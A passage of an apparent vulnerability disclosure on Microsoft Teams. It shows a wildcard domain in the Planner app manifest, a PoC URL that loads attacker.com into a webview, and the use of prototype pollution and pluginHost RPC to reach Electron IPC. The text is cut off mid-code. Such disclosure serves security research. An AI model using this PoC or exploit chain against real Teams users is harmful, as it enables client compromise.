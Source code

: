 `Microsoft Planner` app (appId: 1ded03cb-ece5-4e7c-9f73-61c375528078) has a domain with wildcard in its validDomains field:

```js
{
    "manifestVersion": "1.7",
    "version": "0.0.19",
    "categories": [
        "Microsoft",
        "Productivity",
        "ProjectManagement"
    ],
    "disabledScopes": [
        "PrivateChannel"
    ],
    "developerName": "Microsoft Corporation",
    "developerUrl": "https://tasks.office.com",
    "privacyUrl": "https://privacy.microsoft.com/privacystatement",
    "termsOfUseUrl": "https://www.microsoft.com/servicesagreement",
    "validDomains": [
        "tasks.teams.microsoft.com",
        "retailservices.teams.microsoft.com",
        "retailservices-ppe.teams.microsoft.com",
        "tasks.office.com",
        "*.office.com"
    ],
...
}
```

As a result, this bug allows the attacker to load an arbitrary location into a webview.

PoC:  
`https://teams.live.com/_#/l/task/1ded03cb-ece5-4e7c-9f73-61c375528078?url=https://attacker.com%23.office.com/&height=100&width=100&title=hey&fallbackURL=https://aka.ms/hey&completionBotId=1&fqdn=teams.live.com`

#### 2. pluginHost allows dangerous RPC calls from any webview

Since `contextIsolation` is not enabled on the webview, attacker can leverage prototype pollution to invoke arbitrary electron IPC calls to processes (see Appendix section).

Given this primitive, attacker can invoke `'calling:teams:ipc:initPluginHost'` IPC call of main process,
which gives the id of the pluginHost window.

pluginHost exposes dangerous RPC calls to any webview e.g. returning a member of 'registered objects', calling them, and importing some allowlisted modules.

lib/pluginhost/preload.js:

```js
// n, o is controllable
P(c.remoteServerMemberGet, (e, t, n, o) => {
  const i = s.objectsRegistry.get(n);
  if (null == i)
    throw new Error(
      `Cannot get property '${o}' on missing remote object ${n}`
    );
  return A(e, t, () => i[o]);
}),

// n, o, i is controllable
P(c.remoteServerMemberCall, (e, t, n, o, i) => {
  i = v(e, t, i);
  const r = s.objectsRegistry.get(n);
  if (null == r)
```